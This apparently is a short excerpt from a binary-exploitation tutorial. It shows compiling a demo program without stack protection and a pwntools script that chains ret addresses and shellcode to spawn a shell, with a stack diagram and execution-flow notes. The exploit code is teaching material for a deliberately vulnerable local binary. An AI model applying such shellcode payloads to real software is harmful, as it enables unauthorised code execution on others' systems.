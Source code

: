 ```shell
gcc -m32 -fno-stack-protector -z execstack -o demo ./demo.c
```

[demo](https://drive.google.com/open?id=0B5w3KuqR3zoBR0MzYllkRlM2X2c)

```python
from pwn import *
context.arch="i386"

elf=ELF('./demo')
ret=0x080482d6

io=process("./demo")
payload=p32(ret)*5
payload+=p32(elf.symbols['global']+len(payload)+4)
payload+=asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```

--

# Payload

| stack   |
| ------- |
| ret     |
| ret     |
| ret     |
| ret     |
| ret     |
| payload |
|         |

--

# Flow

1. eip->ret
1. eip->ret
1. eip->ret
1. payload

---

# Tip 2: push esp ret
